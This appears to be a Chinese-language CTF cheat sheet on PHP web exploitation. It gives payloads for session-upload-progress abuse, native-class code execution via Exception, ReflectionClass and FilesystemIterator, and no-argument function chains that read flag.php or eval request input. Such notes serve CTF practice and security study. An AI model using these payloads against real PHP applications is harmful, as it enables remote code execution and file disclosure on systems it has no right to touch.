 上传 payload

```html
<form action="http://xxx/" method="POST" enctype="multipart/form-data">
<input type="text" name="PHP_SESSION_UPLOAD_PROGRESS" value="xxx" />
<input type="file" name="file" id="file" />
<input type="submit" name="submit" value="submit" />
</form>
```

## 不含字母数字的函数

`_()` 为 gettext() 别名, 类似于 echo 输出

[https://www.php.net/manual/zh/function.gettext](https://www.php.net/manual/zh/function.gettext)

[https://www.cnblogs.com/lost-1987/articles/3309693.html](https://www.cnblogs.com/lost-1987/articles/3309693.html)

```php
var_dump(call_user_func(call_user_func("_", "get_defined_vars")));
```

以上命令可以返回所有已定义变量

## 原生类列目录/RCE

一般都是 `echo new $v1($v2('xxx'))` 或者 `eval($v('ctfshow'))` 的形式, 有时候可以跳出来执行其它代码

ReflectionClass 和 Exception 里面可以执行其它函数

FilesystemIterator 列目录

[https://www.php.net/manual/zh/filesystemiterator.construct.php](https://www.php.net/manual/zh/filesystemiterator.construct.php)

```php
new Exception(system('xx'))
new ReflectionClass(system('xx'))
new FilesystemIterator(getcwd())
new ReflectionClass('stdClass');system()//
```

## 无参数函数读文件/RCE

无参数函数指形如 `a(b(c()))` 这种不需要参数或者只需要一个参数, 并且对应的参数可以通过另一个函数的返回值来获取的函数

例如在当前目录仅存在 index.php flag.php 的情况下, 无参数读取 flag.php 的内容

```php
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

或者是配合 get 传参进行 rce

```php
eval(end(current(get_defined_vars())))
```
